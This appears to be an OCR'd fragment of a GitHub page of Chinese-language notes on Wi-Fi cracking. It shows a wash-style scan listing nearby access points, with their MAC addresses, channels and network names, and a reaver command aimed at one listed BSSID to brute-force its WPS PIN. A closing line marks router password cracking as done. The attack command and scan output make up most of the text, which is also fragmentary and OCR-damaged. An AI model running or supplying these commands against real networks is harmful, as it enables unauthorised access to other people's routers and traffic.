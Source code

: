98:BC:57:5F:83:5B  12  -63  1.0  No   ChinaNGB-Ydm93P
98:BC:57:5B:A5:FF  12  -57  1.0  No   ChinaNGB-YdxPch
7C:08:D9:DB:2C:CA   1  -57  1.0  No   ChinaNGB-602
98:F4:28:02:1C:37   1  -57  1.0  No   ChinaNet-NMZp
38:83:45:FD:82:12   1  -63  1.0  No   tingting
98:BC:57:70:62:A9  13  -63  1.0  No   ChinaNGB-YdM7rV
98:BC:57:4E:C4:6E   1  -61  1.0  No   ChinaNGB-YDVa2n
08:C0:21:2E:AE:D4   1  -63  1.0  No   CMCC-i6Eb
C4:C7:55:3D:65:5E   1  -61  1.0  No   ChinaNet-pDQn
7C:08:D9:B2:8E:92   1  -69  1.0  No   ChinaNGB-239309
08:10:7A:28:2E:F6   1  -63  1.0  No   ChinaNet-2.4G-2EF6
C4:C7:55:0F:85:31  11  -63  1.0  No   ChinaNet-9d2f
D4:76:EA:89:F1:CF   2  -59  1.0  No   ChinaNet-EsuN
A8:15:4D:FD:2F:10   6  -65  1.0  No   tang_1003
C8:E7:D8:37:B4:08   1  -65  1.0  No   ADMIN-2401
F0:B4:29:D1:69:C3   3  -65  1.0  No   5G就是它
08:3F:BC:BC:07:EF   5  -61  1.0  No   ChinaNet-cVjp
















































实例2 18:44:E6:73:CA:CF   1  00  1.0  No   ChinaNet-VTka
🔅 reaver -i wlan0mon -b 18:44:E6:73:CA:CF -vv
后面不能加 -a 不知为什么..  开始等吧..




⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️------⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️⬛️

🔵 路由器登录密码破解. ✔︎
================================================================================
